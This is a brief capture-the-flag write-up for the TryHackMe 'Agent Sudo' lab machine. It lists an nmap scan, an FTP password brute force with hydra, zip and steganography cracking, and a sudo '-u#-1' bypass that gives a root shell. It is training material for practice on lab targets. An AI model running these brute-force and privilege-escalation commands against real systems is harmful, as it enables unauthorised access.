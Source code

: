 # Agent sudo

[Agent Sudo Tryhackme](https://tryhackme.com/room/agentsudoctf)

## Scan report

```
# Nmap 7.80 scan initiated Tue Jan 25 18:47:51 2022 as: nmap -vvv -p 21,22,80 -A -vv -sV -oN nmap.txt 10.10.202.84
Nmap scan report for 10.10.202.84
Host is up, received syn-ack (0.25s latency).
Scanned at 2022-01-25 18:47:51 +06 for 15s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 25 18:48:06 2022 -- 1 IP address (1 host up) scanned in 15.25 seconds

```

## User agent brute force

Agent name found chris

## FTP hacking

- `hydra -l chris -P ../../wordlists/rockyou.txt ftp://$(cat ip) -V`
- `mgets *` to download all files in the current directory

## Image Cracking

- `binewalk cutie.png` Shows that there is a compressed file inside the cutie.png
- `binwalk cutie.png -e` extracts the zip file from .png file
- `/opt/john/zip2john zipfile > zipper` Get the .zip file into crackable format
- `/opt/john/john zipper` For cracking the .zip file
- `echo QXJlYTUx | base64 -d` For decoding base64
- `steghide extract -sf cute-alien.jpg`

## Privilage escalation

- `sudo -l`
- `sudo -u#-1 /bin/bash`
